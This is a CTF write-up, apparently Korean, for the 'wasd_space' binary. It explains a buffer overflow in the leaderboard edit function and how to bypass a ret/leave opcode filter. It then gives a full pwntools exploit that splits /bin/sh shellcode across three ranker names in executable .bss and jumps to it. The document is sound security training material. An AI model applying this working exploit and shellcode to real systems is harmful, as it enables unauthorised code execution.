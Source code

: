 # wasd_space

# Concept
- BOF
- NO Nx bit
- No Return


# Writeup
- 단순히 wasd 그리고 space key를 연습할 수 있는 프로그램이다.
- 따로 시간제한은 없지만 틀리면 점수를 얻을 수 없다.
- edit_rank 함수에서 0x30과 30을 혼동해서 랭커들의 정보를 입력할 때 BOF가 일어난다.
- 버퍼를 입력받고 버퍼에 입력된 값들을 체킹하는 함수가 존재한다.
```c
if(check_p[i] == '\xc3' || check_p[i]=='\xc9') {
    puts("No");
    exit(0);
}
```



```c
__int64 edit_rank()
{
  __int64 result; // rax
  char s[32]; // [rsp+0h] [rbp-40h] BYREF
  char buf[32]; // [rsp+20h] [rbp-20h] BYREF

  for ( len = 0; len <= 29; ++len )
    buf[len] = 0;
  len = 0;
  t_len = 0;
  puts("=============");
  puts("Edit rank");
  puts("=============");
  if ( my_score <= Third_score )
    return 0LL;
  printf("your name : ");
  read(0, buf, 0x30uLL);
  len = strlen(buf) + 1;
  checking(buf, (unsigned int)len);
  printf("your text : ");
  read(0, s, 0x30uLL);
  t_len = strlen(s) + 1;
  checking(s, (unsigned int)t_len);
  if ( my_score <= Second_score )
  {
    puts("cong~");
    puts("you are third");
    strncpy(Third_name, buf, len);
    Third_name[len - 1] = 0;
    strncpy(Third_text, s, t_len);
    Third_text[t_len - 1] = 0;
    Third_score = my_score;
    result = 0LL;
  }
  else
  {
    if ( my_score <= First_score )
    {
      puts("con~");
      puts("you are second");
      strncpy(Second_name, buf, len);
      Second_name[len - 1] = 0;
      strncpy(Second_text, s, t_len);
      Second_text[t_len - 1] = 0;
      Second_score = my_score;
    }
    else
    {
      puts("con~");
      puts("you are first");
      strncpy(First_name, buf, len);
      First_name[len - 1] = 0;
      strncpy(First_text, s, t_len);
      First_text[t_len - 1] = 0;
      First_score = my_score;
    }
    result = 0LL;
  }
  return result;
}
```
- checking 함수에서 buf에 들어있는 값이 \xc3 \xc9이면 프로그램을 종료한다.
- c3 과 c9는 각각 return 과 leave 에 해당하는 OPCODE이다.
- 또한 bof 를 일으킬 수 있지만 `s` 입력받는 부분에서는 의미가 없고 `buf`에서 SFP, 그리고 return 주소까지밖에 덮지 못한다.
- nx bit가 걸려있지 않고, main에서 mprotect로 bss에 실행권한을 주었기 때문에 우리가 입력 가능한 bss, 혹은 stack에 쉘코드를 사용하여 공격을 진행할 수 있다.
- 허나 일반적인 쉘코드를 전부 집어넣기에 길이가 짧기 때문에 쉘코드를 분할하는 방법을 사용할 것이다.
- 랭킹에 등재되는 사람들이 3명이기 때문에 3개로 분할하고 BOF가 일어나는 랭커의 이름에 1위, 2위, 3위의 이름에 각각 넣을 것이다.
- 쉘코드 실행 순서는 상관 없지만 First_name - Second_name - Third_name 순으로 쉘코드가 실행되게 할 것이다.
- 분할된 부분에 jmp offset 계산을 후 바이트코드를 추가해준 후 랭커들의 이름에 추가해 주면 된다.

```python
from pwn import *
p = process('wasd_space')
shell1 = b'\x48\x31\xf6\x56'
shell1 += b'\xe9\x37'
shell1 += b'\00'
# \x00 인 이유는 이외의 것은 bytecode 해석할 때 주소계산에 오류가 생긴다.
shell2 = b'\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68'
shell2 += b'\xe9\x31'
shell2 += b'\00'

shell3 = b'\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05' + b'\x90'

def set_first():
    last = shell1+b'A'*(32-len(shell1))
    last += b'SFP_SFP_'
    last += p64(0x4040C0)
    p.sendline(last)
    p.sendline('First_text'.encode())
    pass
def set_second():
    p.sendline(shell2)
    p.sendline('Second_text'.encode())
    pass
def set_third():
    p.sendline(shell3)
    p.sendline('Third_text'.encode())
    p.recvuntil("you are third\n");
    pass
def solve(score):
    p.sendline(b'1')
    count = 0;
    while count < score:
        asdf = p.recvline()
        asdf = p.recvuntil(b"- '")
        print(asdf)
        asdf = p.recv(1)
        p.sendline(asdf)
        count += 100
        pass
    p.sendline(b'!')
    pass

print(p.recvuntil(b'Choice > '))
p.recvline()
solve(1000)
set_third()

print(p.recvuntil(b'Choice > '))
p.recvline()
solve(1200)
set_second()

print(p.recvuntil(b'Choice > '))
solve(1700)
set_first()


p.sendline(b'cat flag')
p.interactive()
```